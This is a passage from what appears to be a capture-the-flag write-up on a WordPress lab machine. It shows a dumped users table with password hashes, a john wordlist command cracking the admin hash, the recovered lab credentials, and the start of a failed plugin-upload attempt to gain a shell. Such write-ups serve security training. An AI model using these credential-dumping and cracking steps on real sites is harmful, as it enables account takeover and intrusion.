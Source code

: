 ```jsx
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
|  1 | corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com        | http://192.168.85.131/wordpress2 | 2021-05-26 23:35:28 |                                               |           0 | corp-001         |
|  2 | test-corp  | $P$Bk3Zzr8rb.5dimh99TRE1krX8X85eR0 | test-corp     | test-corp@tryhackme.fakemail |                                  | 2021-05-26 23:47:32 | 1622072852:$P$BJWv.2ehT6U5Ndg/xmFlLobPl37Xno0 |           0 | Corporation Test |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
2 rows in set (0.336 sec)

MySQL [wordpressdb2]> 
```

I quickly accessed `~~REDACTED~~` table and retrieved the administrator's username and password. This was crucial, as the current user did not have full access to other WordPress features. With the admin's credentials, I can now carry out more advanced attacks to gain shell.

```jsx
corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com
```

I investigated further to know about its hash-type and learnt that is was 'phpass', and I cracked it through john.

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
teddybear        (?)     
1g 0:00:00:00 DONE (2025-09-16 04:37) 5.000g/s 2400p/s 2400c/s 2400C/s jeffrey..marie
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

username: `corp-001`

password: `teddybear`

# **Initial Foothold**

In order to gain shell, I changed the WordPress account to the `corp-001` admin account and began exploring the plugin feature. Initially, I attempted to perform an Arbitrary File Upload by downloading a vulnerable Gallery Plugin, but unfortunately, my attempts were failed.
